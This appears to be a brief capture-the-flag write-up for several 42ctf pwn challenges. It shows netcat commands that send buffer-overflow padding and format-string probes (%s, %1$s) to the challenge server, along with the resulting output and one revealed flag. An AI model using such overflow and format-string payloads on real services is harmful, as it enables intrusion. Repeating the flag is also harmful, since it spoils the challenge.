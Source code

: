 ## The Answer
```sh
python3 -c "print('A' * 40 + '*')" | nc challenges.42ctf.org 3001
```

flag ``
of_course_it_was_42
``

## GOTcha
```sh
# 72 a's

$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc challenges.42ctf.org 3003

. . .
Gimme a trusted input plz:
sh: 1: ??1?I??^H??H???PTI???@: not found
. . .
```
## Stack leak
```r
$ nc challenges.42ctf.org 3006
What is the flag?
%3%s        
%s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%1$s
%1$s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%2$s    
(null) is not the flag! 
```
